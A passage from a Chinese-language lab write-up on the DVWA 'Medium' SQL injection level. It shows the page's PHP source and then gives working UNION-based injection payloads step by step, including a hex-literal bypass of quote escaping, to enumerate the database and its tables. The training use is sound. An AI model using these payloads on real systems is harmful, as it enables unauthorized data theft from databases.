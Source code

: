         // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Display values
            $first = $row["first_name"];
            $last  = $row["last_name"];
    
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    
    }
    
    // This is used later on in the index.php page
    // Setting it here so we can close the database connection in here like in the rest of the source scripts
    $query  = "SELECT COUNT(*) FROM users;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    $number_of_rows = mysqli_fetch_row( $result )[0];
    
    mysqli_close($GLOBALS["___mysqli_ston"]);
    ?>
    
    
        

这里`$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);` 会转义sql中的一些特殊字符如：\\x00 \\n \\r \\ ’ " \\x1a 。并且Medium无输入框，但可以用burpsuite抓包来爆信息

#### 1.判断是否存在注入，注入是字符型还是数字型

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2021031709504660.png%23pic_center)尝试`1‘ or 1=1#` 出现错误，尝试`1 or 1=1#`查询成功，则存在数字型注入。

##### 2\. 猜字段数

这里仍然只有两个字段![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317095620645.png%23pic_center)

#### 3.爆库

    1 union select 1,database()#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2021031709580482.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

#### 4.爆表，爆列，爆信息

这里如果仍然使用Low中爆表的方法，则会报错，因为 ’单引号被转义-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317100047154.png)由于对’单引号转义，所以用16进制进行绕过，dvwa的16进制为0x64767761

    1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761() #
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317101101931.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
爆列：user的16进制为0x75736572
